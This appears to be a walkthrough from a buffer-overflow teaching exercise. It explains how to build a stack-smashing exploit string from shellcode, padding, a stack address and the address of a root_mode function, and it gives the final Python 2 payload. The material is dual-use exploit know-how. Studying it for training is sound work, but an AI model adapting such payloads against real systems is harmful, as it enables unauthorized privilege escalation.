 There's actually a couple ways to solve this one, but I really like the solution
that takes advantage of `ret` reading the very next thing on the stack as if it
was a return pointer. You might also solve this with a `jmp` instruction (but it
needs to be relative to the new execution pointer on the stack, so it's a bit
more annoying).


First thing that goes on our stack is our assembly code. As I mentioned in Hint
3, mine was:
```
mov edi,0x41424344
ret
```

That assembles to
```
bf 44 43 42 41
c3
```

Note that this is 6 bytes long. We have another 14 bytes until we hit our return
pointer (6 more bytes in the username buffer and 8 bytes for the frame pointer).
We can put whatever we want there. I'll put nulls (`\x00`).

Now we need to put the address of username, which in my case was
`0x7ffeefbff854`. This is *not consistent* across compiles, so yours is almost
certainly slightly different.

Finally, we put the address of the `root_mode` call, which we find using
`objdump` just like we did in example 2. Mine was `0x100000dc0`. Yours is quite
likely the same; this appears to be pretty consistent across compiles, but do
double check.

Putting it all together, we can make an exploit string like this:
```python2
exploit_string = "\xbf\x44\x43\x42\x41\xc3"
exploit_string += '\x00' * 14
exploit_string += '\x54\xf8\xbf\xef\xfe\x7f\x00\x00'
exploit_string += '\xc0\x0d\x00\x00\x01\x00\x00\x00'
print exploit_string
```

Note that I broke it out for clarity, but it's fine as a one-liner fed back into
our socket too.

